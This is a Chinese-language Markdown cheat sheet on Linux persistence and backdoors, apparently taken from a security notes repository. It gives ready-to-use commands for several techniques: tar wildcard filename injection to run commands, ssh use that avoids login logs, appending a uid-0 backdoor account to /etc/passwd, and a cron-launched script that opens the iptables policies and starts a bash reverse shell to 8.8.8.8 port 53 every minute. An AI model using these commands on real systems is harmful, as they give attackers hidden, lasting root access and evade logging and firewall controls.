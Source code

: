 
## 权限维持技巧

**压缩包运行命令**
```
touch ''$'\n''id;'
touch ''$'\n''ls -la;'
tar -cf runme.tar *
chmod +x runme.tar
./runme.tar
```

**ssh + http 端口复用**
- [yrutschle/sslh](https://github.com/yrutschle/sslh)

**避免记录登录日志**
```
ssh -T user@host /bin/bash -i
```

---

## 后门隐藏进程

**相关文章**
- [linux常见backdoor及排查技术](https://xz.aliyun.com/t/4090)
- [Linux后门整理合集](https://www.secpulse.com/archives/59674.html)
- [Linux基础软件威胁疑云：从已知到“未知”](https://mp.weixin.qq.com/s/M346b8Kz_3r-yoDnBLuV8g)

**添加 root 权限后门用户**

我们的目标就是在这个文件中追加一条,一个带有密文且 id 为 0 的账号.

密码加密使用下面的命令 `perl -e 'print crypt("password", "AA"). "\n"'`

所以我们最终想要在 passwd 文件中的条目是这个样子 `backdoor:AA6tQYSfGxd/A/A:0:0:me:/root:/bin/bash`

执行写入 `echo "backdoor:AA6tQYSfGxd/A:0:0:me:/root:/bin/bash">>/etc/passwd`

**Crond 开机自启后门**

先创建 /etc/xxxx 脚本文件(名字自己改),利用该脚本进行反弹.以下脚本代表全自动反弹到 8.8.8.8 的 53 端口.
```vim
vim /etc/xxxx
    #!/bin/bash
    if netstat -ano|grep -v grep | grep "8.8.8.8">/dev/null
    then
    echo "OK">/dev/null
    else
    /sbin/iptables --policy INPUT ACCEPT
    /sbin/iptables --policy OUTPUT ACCEPT
    bash -i >& /dev/tcp/8.8.8.8/53 0>&1
    fi

chmod +sx /etc/xxxx
```
```vim
vim /etc/crontab
    */1 * * * * root /etc/xxxx

service cron reload #不同发行版重启方式不一样
service cron start
```
